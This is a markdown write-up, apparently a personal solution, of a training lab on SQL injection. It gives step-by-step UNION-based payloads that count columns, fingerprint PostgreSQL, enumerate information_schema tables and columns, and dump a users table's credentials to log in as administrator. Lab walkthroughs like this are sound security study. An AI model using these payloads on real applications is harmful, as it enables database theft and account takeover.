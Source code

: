 # SQL injection attack, listing the database contents on non-Oracle databases
- SQL injection vulnerability in the product category filter
- results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables\
- application has a login function, and the database contains a table that holds usernames and passwords
- To solve the lab, log in as the administrator user.
# Goal
- determine the name of this table and the columns it contains
- retrieve the contents of the table to obtain the username and password of all users
# Solving The Lab
- First Find Number of Columns with
```
' ORDER by 1--
```
- url encode and change the value untill we got and 3 internal server error so columns are 2
- now to the columns type we try string and we got 200 response
```
' UNION SELECT 'a','a'--
```
- now to db version we know from description that its not oracle so we have three options left
```
Microsoft-->	SELECT @@version
PostgreSQL-->	SELECT version()
MySQL-->	SELECT @@version
```
- we tried all but oonly postgresql gave 200 response 
```
' UNION  SELECT version(),'a'--
```
- now to db contents since its postgresql we look at the cheatsheet and we get this payload
```
SELECT * FROM information_schema.tables
```
- we need to search for column names after searching we found that (table_name) is one of them
- now with our union attack
```
' UNION  SELECT table_name,'a' FROM information_schema.tables--
```
- we got 200
- now seach for table which contain users we found one that looks sketchy (users_pmfofm)
- second we need to find column names from cheatsheet
```
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
- we serch for column name and from the postgresql doc we find this (column_name)
- now the payload
```
' UNION  SELECT column_name,'a' FROM information_schema.columns WHERE table_name = 'users_pmfofm'--
```
- and we got 200 in response and found the 2 columns we are lokking for
```
username_thytrw
password_osldaz
```
- now build our final payload
```
' UNION  SELECT username_thytrw,password_osldaz FROM users_pmfofm--
```
- and we got 200 response and we can find the administrator accound in the response we login with it and we solved the lab
